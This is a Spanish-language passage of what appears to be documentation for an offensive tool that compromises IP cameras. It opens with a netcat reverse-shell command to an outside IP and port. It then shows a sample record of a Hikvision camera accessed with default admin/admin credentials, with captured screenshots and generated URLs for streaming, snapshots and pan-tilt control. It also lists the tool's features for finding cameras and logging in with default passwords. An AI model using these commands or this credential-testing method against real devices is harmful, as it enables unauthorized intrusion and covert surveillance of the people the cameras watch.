 4. **Reverse Shell**:
   ```bash
   nc -e /bin/bash 184.107.168.100 4444
   ```

## 📹 Información de Cámaras IP

### Cámaras Accedidas
```json
{
  "host": "192.168.1.100",
  "port": 80,
  "protocol": "http",
  "camera_type": "hikvision",
  "credentials": {
    "username": "admin",
    "password": "admin"
  },
  "camera_info": {
    "model": "DS-2CD2142FWD-I",
    "firmware": "V5.5.82",
    "features": ["ptz", "night_vision", "audio"]
  },
  "screenshots": [
    "camera_screenshots_1640995200/192.168.1.100_screenshot_1.jpg",
    "camera_screenshots_1640995200/192.168.1.100_screenshot_2.jpg"
  ],
  "access_urls": {
    "web_interface": [
      "http://admin:admin@192.168.1.100:80/",
      "http://admin:admin@192.168.1.100:80/index.html"
    ],
    "streaming": [
      "http://admin:admin@192.168.1.100:80/video.mjpg",
      "http://admin:admin@192.168.1.100:80/stream"
    ],
    "snapshots": [
      "http://admin:admin@192.168.1.100:80/snapshot.cgi",
      "http://admin:admin@192.168.1.100:80/image"
    ],
    "control": [
      "http://admin:admin@192.168.1.100:80/cgi-bin/ptz.cgi"
    ]
  }
}
```

### Características de Cámaras
- **Detección automática**: Identifica cámaras IP en puertos comunes
- **Credenciales por defecto**: Prueba credenciales específicas de cámaras
- **Screenshots de prueba**: Captura 2 imágenes como verificación
- **URLs de acceso**: Genera todas las URLs necesarias para acceso posterior
- **Información detallada**: Modelo, firmware, características detectadas
